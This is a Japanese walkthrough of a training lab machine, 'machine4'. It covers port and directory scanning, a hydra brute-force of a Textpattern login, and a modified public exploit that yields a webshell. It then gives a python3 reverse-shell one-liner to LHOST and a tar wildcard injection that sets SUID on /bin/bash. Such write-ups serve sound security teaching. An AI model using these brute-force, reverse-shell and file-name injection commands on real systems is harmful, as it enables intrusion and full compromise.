 machine4で学べることは以下のことです。

- hydraを用いたブルートフォース攻撃
- public exploitのトラブルシューティング
- cron jobを悪用した権限昇格
- おすすめ視聴タイミング: Learning Path終盤

※動画内で使用したhydraのコマンドで誤字があります。詳細は攻略の流れを確認してください。

### 攻略の流れ
Enumeration
nmapを用いてportscanを行います。
```
$ nmap machine4
```
開いていることがわかったポートに対してより詳細なスキャンを-sVオプションと-sCオプションをつけて行います。
```
$ nmap -p22,80 -sC -sV machine4
```
ポートの見落としを避けるためにフルポートスキャンを行います。
```
$ nmap -p- machine4
```
ブラウザでアクセスするとapacheのデフォルトページが表示されます。

ソースコードにも特に情報がないので、gobusterなどのツールを用いてディレクトリの列挙を行います。

動作させるモードとしてdirを指定、-uオプションでurlを指定、-wオプションで使用するワードリストを指定します。
```
gobuster dir -u http://machine4/ -w /usr/share/wordlists/dirb/common.txt
```
見つかったディレクトリからさらにgobusterを使って調査を進めるとtextpatternというディレクトリが見つかり、アクセスするとアプリが動作しています。
```
$ gobuster dir -u http://machine4/app -w /usr/share/wordlists/dirb/common.txt
```
```
$ gobuster dir -u http://machine4/textpattern -w /usr/share/wordlists/dirb/common.txt
```
textpatternというアプリについて調査するとexploitが見つかりますが、バージョン情報等がわからないため有効かどうかの判断ができません。

gobusterで見つかった他のディレクトリにアクセスすると認証ページが見つかりますが、簡単な認証情報ではログインできないため、hydraを使ったブルートフォース攻撃を行います.
```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt [RHOST] http-post-form "[url]:[post]:[error]" -V
```
hydraのオプションを解説します。

-l  
ユーザーネームです。-Lでファイルを指定することで複数のユーザーネームを指定することも可能です。  
-P  
パスワードに使用するワードリストです。-pにすることで特定のパスワードを指定することも可能です。  
[RHOST]  
ターゲットのipアドレスもしくはホスト名です。  
http-post-form  
ターゲットのプロトコルを指定します。他にftpやsshなどがあります。  
"[url]:[post]:[error]"    
認証ページへのパス、送信するデータ、ログインに失敗したことを判定できる文字列を順番に指定します。 ユーザーネームとパスワードが入る場所は^USER^と^PASS^に置き換えます。  
burp suiteなどを用いて実行するコマンドを作成します。(動画内のコマンドはエラー文が間違っています。下記コマンドが正しいコマンドです。)
```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt machine4 http-post-form "/app/textpattern/textpattern/index.php:lang=en&p_userid=^USER^&p_password=^PASS^&_txp_token=:Could not log in" -V
```
少し待つとブルートフォース攻撃が成功し、admin:monkeyでログインできることがわかります。

ログインして少し調査すると、バージョンが4.8.2であることがわかります。

4.8.2のexploitを探しますが見つからないので、4.8に関するexploitを探すと4.8.3に対するexploitが複数見つかります。
```
$ searchsploit 4.8.2
$ searchsploit 4.8
```
Initial Shell
見つかったexploitをいくつか読み、成功しそうなものの一つを実行しますが、成功しません。

再度、exploitが何をしているかを確認してどこで失敗しているかを調査します。

調査の結果、ファイルのアップロードとphpの実行は成功していることがわかるため、アップロードするファイルの内容を更新して再度exploitを実行します。

今回は使用する関数をsystem関数からpassthru関数に変更しました。
```
$ ./48943.py http://machine4/app/textpattern/ admin monkey
```
exploitが成功し、webshellを通じてコマンドが実行できるようになりました。

次に、python3を使ってリバースシェルを獲得します。

ncコマンドでシェルを待ち受けてからコマンドを実行します。
```
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Enumeration(権限昇格)
シェルのアップグレードを行ってから権限昇格の列挙を行います。   
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'  
(Ctrl+z)  
$ stty raw -echo;fg  
(Enter)  
(Enter)  
$ export TERM=xterm  
```
権限昇格のための列挙では様々なツールが使えますが、今回はpspyというツールを使います。

pspyは実行されているプロセスを監視することができるツールで、githubからダウンロードすることができます。

ダウンロードしたpspyをターゲットマシンに転送して実行すると実行されているプロセスの情報が出力され、新しいプロセスが動作すると随時更新されます。
```
$ wget http://[LHOST]/pspy
$ chmod +x pspy
$ ./pspy
```
しばらく待つと、tarコマンドがroot権限で実行されます。

このtarコマンドではウェブアプリのバックアップを取っているようです。

tarコマンドを使って権限昇格を行う方法がないか調査するとtarとwildcardを使って権限昇格を行うテクニックが見つかります。

新しくファイルを作成してしばらく待つとそのファイルも含めて圧縮されるため、wildcardが使われていることがわかります。

#### Privilege Escalation
tarコマンドがwildcardを用いて実行されているため、先ほど発見した権限昇格のテクニックを実践します。

exploitの内容は/bin/bashにSUIDを設定するものです。

実行したあとpspyを実行し、tarコマンドが実行されるのを待ちます。
```
$ echo '#!/bin/bash\nchmod +s /bin/bash' &gt; shell.sh
$ echo "" &gt; "--checkpoint-action=exec=sh shell.sh"
$ echo "" &gt; --checkpoint=1
$ ./pspy
```
tarコマンドが実行されたあとに/bin/bashを確認します。
```
$ ls -la /bin/bash
```
SUIDが設定されていないので、exploitが失敗していることがわかります。

pspyの出力を確認するとshell.shは確かに実行されているので、shell.shの内容を確認します。
```
$ cat shell.sh
```
改行コードがそのまま入力され、無効なシェルスクリプトになっているので失敗したようです。

shell.shを修正してtarコマンドが実行されるのを待つとSUIDが設定されます。

SUIDが設定された/bin/bashを実行するとroot権限になれます。
```
$ /bin/bash -p
```